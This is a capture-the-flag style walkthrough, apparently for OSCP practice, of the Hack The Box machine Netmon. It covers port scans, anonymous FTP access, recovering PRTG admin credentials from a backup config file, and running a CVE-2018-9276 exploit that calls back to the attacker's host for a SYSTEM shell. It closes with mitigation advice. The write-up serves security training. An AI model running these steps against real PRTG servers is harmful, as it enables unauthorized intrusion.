 ```yaml
---
title: Netmon
date: 2025-04-21
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough] 
image: netmon.png
media_subpath: /assets/img/posts/2025-04-21-netmonHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Easy Windows box Netmon. Let’s start ..
## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check first 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

I have noticed MD5 hash, and with purpose not to miss anything I tried to crack but it didn’t yield anything.

## Services

### Port 21

Anonymous login is allowed and we get access to filesystem.

### Port 139/445

```bash
smbclient -L //$IP/ -N
```

![image.png](image%203.png)

Cannot access SMB.

## Web

### Port 80

**PRTG 18.1.37.13946**

Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)

I tried default credentials `prtgadmin : prtgadmin` but it didn’t work.

**Feroxbuster**

```bash
feroxbuster -u [http://$IP/](http://$ip/) -C 404,403,400 -w /usr/share/wordlists/dirb/common.txt
```

![image.png](image%204.png)

I think we should find a newly-set password inside ftp service.

I need something like configuration file so I searched for default configuration file location of PRTG NetMon and found the following `\ProgramData\Paessler\PRTG Network Monitor`

> The `ProgramData` directory in Windows is not visible by default because it is a hidden system folder. It is set to "Hidden" in its file attributes to prevent accidental modification by users, as it stores critical application data and settings shared across users.
{: .prompt-info }


![image.png](image%205.png)

There is nothing in `PRTG Configuration.dat` and `PRTG Configuration.old` I have found some base64 encoded strings but they decode to non-ascii characters.

I opened files with sublime text and searched for string `pass` and found nothing, but when I opened `"PRTG Configurat.old.bak"` just the first match showed me the password for prtgadmin user:

## Credentials

```bash
prtgadmin:PrTg@dmin2018
```

## Exploitation

I used these credentials for logging in but they seemed to not work, then I realized that this is old backup file, I saw that current config file is of date 2019, so I changed the year to 2019.

I found a vulnerability for this version of PRTG NetMon, but it was a bit weird code [ExploitDB](https://www.exploit-db.com/exploits/46527) , then I searched that exploit python code in hosted in github and found this code:

[https://github.com/A1vinSmith/CVE-2018-9276/blob/main/README.md](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/README.md)

I executed it:

![image.png](image%206.png)

```bash
python3 [exploit.py](http://exploit.py/) -i $IP -p 80 --lhost 10.10.14.6 --lport 80 --user prtgadmin --password PrTg@dmin2019
```

![image.png](image%207.png)

Now we are nt authrority\system!.

## Mitigation

- **Restrict FTP Access**
    
    Disable anonymous FTP access or restrict it to specific directories with non-sensitive content. Use authentication and enforce least privilege access controls.
    
- **Secure Configuration Files**
    
    Avoid storing plaintext credentials or sensitive information in configuration files accessible to low-privilege users or services. Store them with proper permissions and encryption where possible.
    
- **Patch Vulnerable Software**
    
    Keep PRTG Network Monitor and all third-party software updated to the latest versions to address known vulnerabilities, especially those enabling RCE.
    
- **Limit Privileges of Monitoring Services**
    
    Run PRTG and similar services with minimal required privileges instead of SYSTEM-level to reduce the impact of a potential compromise.
    
- **Monitor Network and File Access**
    
    Implement logging and monitoring for suspicious file access patterns and unauthorized configuration file reads, especially from publicly accessible services like FTP.
    
- **Network Segmentation**
    
    Isolate monitoring systems like PRTG from public-facing services and use firewall rules to restrict access only to trusted hosts.
